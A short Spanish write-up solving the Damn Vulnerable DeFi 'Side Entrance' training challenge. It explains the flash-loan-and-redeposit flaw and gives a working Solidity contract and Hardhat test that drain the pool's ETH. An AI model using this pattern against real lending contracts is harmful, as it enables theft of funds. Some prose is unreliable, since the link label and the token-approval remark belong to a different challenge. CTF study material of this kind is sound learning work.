 ```yaml
---
title: Solucion al challenge .#4 Side Entrance
date: 2022-01-31
excerpt: Hay un lending pool que da flashloans gratis, el objetivo es drenar el lending pool y hacerte con todo el ETH
---
```



## El problema

El contrato [TrusterLenderPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/side-entrance/SideEntranceLenderPool.sol) tiene un error de logica clave que permite drenar los fondos.

El error esta en que podemos pedir prestado por un flash loan y utilizar el ether prestado para llamar a la funcion deposit, redepositando dinero y terminando con mas saldo a favor que el inicial.



## El exploit

Bastante simple, solo hay que hacer que el contrato apruebe al atacante para hacer uso de sus tokens.

```
contract SideEntranceExploit {
    address pool;
    function flashLoan(address pool_) external {
        pool = pool_;
        ISideEntranceLenderPool(pool).flashLoan(pool.balance);
        ISideEntranceLenderPool(pool).withdraw();
        payable(msg.sender).call{value:address(this).balance}("");
    }

    function execute() external payable {
        ISideEntranceLenderPool(pool).deposit{value: msg.value}();    
    }

    receive() external payable {}
}
```

```js
    it('Exploit', async function () {
        const SideEntranceExploit = await ethers.getContractFactory('SideEntranceExploit', attacker);
        const sideEntranceExploit = await SideEntranceExploit.deploy();
        await sideEntranceExploit.flashLoan(this.pool.address);
    });
```